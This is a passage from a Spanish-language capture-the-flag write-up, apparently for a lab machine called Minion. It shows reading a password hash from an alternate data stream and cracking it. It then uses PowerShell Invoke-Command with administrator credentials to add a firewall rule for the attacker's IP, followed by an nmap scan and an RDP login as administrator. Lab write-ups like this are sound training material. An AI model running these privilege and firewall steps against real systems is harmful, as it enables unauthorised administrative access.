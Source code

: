 
```bash
type C:\Temp\backup.zip:pass
```

y encontramos un hash. Si lo pasamos por [crackstation](https://crackstation.net/) nos da la contraseña.

#### Ejecucion de comandos como administrator con ScriptBlock {-}

Aqui el problema es que no tenemos conectividad con **smb** o otros puertos para conectarnos como root. La idea
aqui seria de ejecutar comandos como administrator para cambiar la reglas del Firewall.

```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {whoami}

#Output
minion\administrator
```

Aqui vemos que podemos ejecutar comando como el usuario administrator. Vamos a por el cambio en el firewall

```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock \
{New-NetFirewallRule -DisplayName setenso -RemoteAddress 10.10.14.8 -Direction inbound -Action Allow}

#Output
minion\administrator
```

Si ahora desde la maquina de atacante le hacemos un nmap para ver los puertos abiertos

```bash
nmap -sS --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.57
```

vemos que tenemos todo expuesto y como hay el puerto 3389 que es el puerto **RDP** ya nos podemos conectar con Remmina por ejemplo.


![miio-remia](/assets/images/minion-remina.png) 
Y ya estamos en la maquina como administrator

```{r, echo = FALSE, fig.cap="minion remmina pwned", out.width="90%"}
knitr::include_graphics("images/minion-pwned.png")
